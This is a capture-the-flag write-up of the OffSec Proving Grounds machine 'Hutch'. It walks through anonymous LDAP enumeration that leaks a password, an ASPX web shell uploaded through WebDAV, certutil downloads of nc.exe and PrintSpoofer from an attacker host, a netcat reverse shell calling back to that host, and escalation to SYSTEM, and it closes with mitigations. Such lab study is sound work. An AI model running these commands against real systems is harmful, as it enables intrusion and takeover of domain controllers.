# Hutch (OffSec Proving Grounds)

`OffSec Proving Grounds` `Active Directory Privilege Escalation`

> Reading a plaintext password straight out of an anonymous LDAP dump, riding it through WebDAV to a web shell, then abusing a default IIS privilege to land on the domain controller as its own machine account.

[← Back to index](../README.md)

---

## Machine Overview

Hutch is a Windows domain controller, hostname HUTCHDC, domain hutch.offsec. IIS sits on port 80 with WebDAV switched on, and the directory itself hands out more than it should to anyone who simply asks. Nothing here needed a zero day. It needed patience with LDAP output and a general awareness of what IIS application pools are allowed to do by default.

## Objective

Get a foothold through the web service, escalate to the highest privilege available on the domain controller, and capture local.txt and proof.txt.



*Nmap: IIS with WebDAV PUT allowed, full AD footprint, domain hutch.offsec, host HUTCHDC.*

## Step One: LDAP Enumeration

A domain controller talks LDAP, and this one answered an anonymous, unauthenticated query without complaint. A full directory dump, piped to a file and grepped for anything mentioning a user, turned up something that should never live in Active Directory at all.

**Commands**

```
ldapsearch -v -x -b "DC=hutch,DC=offsec" -H "ldap://192.168.246.122" "(objectclass=*)" > ldap.txt
grep -i 'User' ldap.txt
```



*A plaintext password, left sitting in a user's description field.*

Freddy McSorley's account, fmcsorley, had its password written directly into the description attribute, readable by literally anyone who could bind to the directory. Credentials in hand: fmcsorley / CrabSharkJellyfish192.

## Step Two: A Foothold Through WebDAV

IIS with WebDAV enabled and PUT allowed is an open invitation once there is a valid account to authenticate with. Cadaver connected using the harvested credentials.

**Command**

```
cadaver http://192.168.246.122
```



*Authenticated WebDAV session opened with the leaked credentials.*

A PHP web shell went up first, out of habit more than expectation, since IIS has no reason to execute PHP without a handler installed for it.



*shell.php uploaded, though IIS has no PHP handler to run it.*

An ASP.NET web shell was the real answer, since .aspx is exactly what IIS is built to execute.


*cmdasp.aspx uploaded, and IIS will run this one.*

Browsing straight to it confirmed working command execution, running as the site's own application pool identity.



*Code execution confirmed: iis apppool\defaultapppool.*

## Step Three: Upgrading to an Interactive Shell

A browser based web shell is workable but clumsy, so the next step was pulling down a proper reverse shell binary. The first attempt at fetching nc.exe with certutil failed outright with an internal HTTP service error.



*First download attempt fails.*

A second attempt went through cleanly, landing nc.exe in C:\Users\Public.

**Command**

```
certutil -urlcache -f http://192.168.45.166/nc.exe C:\Users\Public\nc.exe
```



*nc.exe confirmed on disk after the retry.*

**Command**

```
C:\Users\Public\nc.exe 192.168.45.166 443 -e cmd.exe
```

A listener on port 443 caught the callback, landing an interactive shell running out of IIS's own installation directory.



*Interactive shell landed, still running as the app pool identity.*



*local.txt captured.*

local.txt: 283a849ef

## Step Four: Privilege Escalation

IIS application pool identities carry a specific, well known privilege by default, and this shell had it too.

**Command**

```
whoami /priv
```



*SeImpersonatePrivilege enabled, the standard opening for a Potato style exploit.*

SeImpersonatePrivilege lets a process accept and impersonate a token handed to it by another component, and coercing the print spooler into connecting to a listening pipe is enough to hand over a SYSTEM level token. PrintSpoofer automates exactly that.

**Command**

```
certutil -urlcache -f http://192.168.45.166/PrintSpoofer64.exe PrintSpoofer64.exe
```



*PrintSpoofer64.exe downloaded to C:\Users\Public.*

**Command**

```
.\PrintSpoofer64.exe -i -c powershell.exe
```



*PrintSpoofer coerces the spooler service and spawns an elevated PowerShell.*

The resulting shell read from the Administrator's own desktop, and whoami resolved to hutch\hutchdc$, the domain controller's own machine account.



*proof.txt captured as the domain controller's machine account, full compromise of HUTCHDC.*

proof.txt: 29b461939

## Attack Chain Summary

Three ordinary weaknesses did all the work. A password typed into a description field instead of a password manager turned an anonymous LDAP query into a valid domain account. A WebDAV service that trusted any authenticated user with write access turned that account into code execution. And a default privilege on the IIS application pool, present on plenty of production servers without anyone thinking twice about it, turned a web shell into the domain controller's own machine identity.

## Mitigations and Prevention

> **The fix:** Credentials should never be written into Active Directory attributes like description, they are readable by any account that can bind to the directory, often anonymously, which is exactly CWE-522, Insufficiently Protected Credentials. WebDAV should be disabled on any IIS site that does not explicitly need it, and PUT and DELETE should never be allowed methods on a production web server, the same unrestricted upload class of issue, CWE-434, that shows up again and again in these engagements. And SeImpersonatePrivilege on service accounts needs active management, through spooler service hardening, restricted named pipe permissions, or running application pools with the reduced privilege configurations Microsoft documents specifically to blunt Potato style attacks.

> **Framework mapping:** LDAP based account discovery is T1087.002 in MITRE ATT&CK. The exposed password itself falls under T1552, Unsecured Credentials. The uploaded ASP.NET web shell is T1505.003, Server Software Component, Web Shell. Pulling tools onto the host with certutil is T1105, Ingress Tool Transfer. And the PrintSpoofer escalation is T1134.001, Access Token Manipulation, Token Impersonation and Theft.
